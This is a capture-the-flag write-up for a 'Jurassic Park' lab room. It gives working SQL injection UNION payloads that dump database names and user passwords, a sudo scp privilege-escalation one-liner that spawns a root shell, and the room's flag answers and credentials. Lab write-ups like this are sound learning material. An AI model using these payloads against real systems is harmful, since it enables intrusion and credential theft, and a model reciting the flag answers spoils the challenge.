 # Jurassic park

## credentials
dennis:ih8dinos
(other user):D0nt3ATM3
mysql password - default? from /delete endpoitn

flag1: /home/dennis/flag1.txt
b89f2d69c56b9981ac92dd267f

flag2: /boot/grub/fonts/flagTwo.txt
96ccd6b429be8c9a4b501c7a0b117b0a

flag3: found in .bash_history
b4973bbc9053807856ec815db25fb3f1

flag4: apparently a troll. was once in /tmp, visible via .viminfo
according to walkthrough, ans is f5339ad0edbd0b0fe1262d91a475c2c4


flag5: /root/flag5.txt - found via `cat test.sh`
2a7074e491fcacc7eeba97808dc5e2ec

## points of interest
item page - sql injection
MySQL 

## Recon
### Nmap - 2 open ports:
22: ssh

80: http apache server - 2.4.18

### gobuster
shop.php
items.php
/assets
requests.txt
/delete -
```
New priv esc for Ubunut??

Change MySQL password on main system!
```
^^^ implies default mysql password, ubuntu os (we already knew that)



robots.txt - this looks to be the one from the rick and morty room? caching issue?

### jus lookin' - sql injection
item.php?id=5 - development package:
```
Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?
```
forcing true via sql injection:
item.php?id=6 OR 1 = 1
page w/price -1, -1 sold, description 'nope' title '...'

using one of the blocked chars in the query param gives us a permission denied 
easter egg pages


adding an OFFSET query gives us an error, saying
check the manual that corresponds to your MySQL server version
item.php?id=5 union select 1, 2, 3, 4, version() gets us server version:
ubuntu 16.04
item.php?id=5 union select 1, 2, 3, 4, (SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database())
^^ gets us 'items, users' so we know we have a users table

http://jurassic.park/item.php?id=5+union+select+1,+2,+3,+4,+(SELECT+group_concat(password)+from+users)
gets us D0nt3ATM3, ih8dinos

### ssh in dennis
`sudo -l` dennis can run scp as sudo
flag1 in home dir
find / -name 'flag*' finds flag2
cat bash_history shows some usage of scp to move flag5 ? fails?
other user = ben? doesn't exist in /etc/passwd?

gtfobins provides this:
`TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
`
gets us a root shell via sudo scp
`cat /home/dennis/viminfo` in the list we can see there was once a /tmp/flagFour.txt'
according to discord this flag is a troll? doesn't exist?
walkthrough seems to confirm. that's annoying.

`cat .bash_history` gives us flag 3 at the top

in vim, using '3 to visit the old file from /tmp/flagfour just makes a new file. no history..


## Summary!

### What is the SQL database called which  is serving the shop information?
Found this accidentally with an unsuccessful SQLi - 
`http://jurassic.park/item.php?id=5%20union%20select%201,%202,%203,%204,%20db_name()`
gives response 'FUNCTION park.db_name does not exist'
ans is:
```
park
```

### How many columns does the table have?
this one was found with successful sql injection - 
using a union select gives an error unless you have 5 columns, meaning:
```
5
```

### What is the system version?
union selecting 1, 2, 3, 4, version() gives us this answer: '5.7.25-0ubuntu0.16.04.2'
from this we can assume:
```
ubuntu 16.04
```

### What is dennis' password?
'http://jurassic.park/item.php?id=5+union+select+1,+2,+3,+4,+(SELECT+group_concat(password)+from+users)'
gives us a concatted list of all passwords - username fetch was disabled here
cheesed this a little as I couldn't get the username
just tried both as an ssh login
```
ih8dinos
```

### locate and get the first flag contents
This was just in dennis' home dir, `cat flag1.txt` got us
```
b89f2d69c56b9981ac92dd267f
```

### what's the contents of the second flag?
`find / -iname 'flag*' 2>/dev/null`
finds it in /boot/grub/fonts/flagTwo.txt and it is:
```
96ccd6b429be8c9a4b501c7a0b117b0a
```

### what's the contents of the third flag?
this was in .bash_history, `cat .bash_history`
ans:
```
b4973bbc9053807856ec815db25fb3f1
```

### What's the contents of the fourth flag?
troll? 
https://www.embeddedhacker.com/2019/09/hacking-walkthrough-thm-hackback-2019/
```
f5339ad0edbd0b0fe1262d91a475c2c4
```

### What's the contents of the fifth flag?
got root access via sudo scp exploit, flag was in /root
ans:
```
2a7074e491fcacc7eeba97808dc5e2ec
```

### thoughts
a nice room, first one i've done start->root without much assistance
a little soured at the end that flag 4 isn't real? wasted time on that

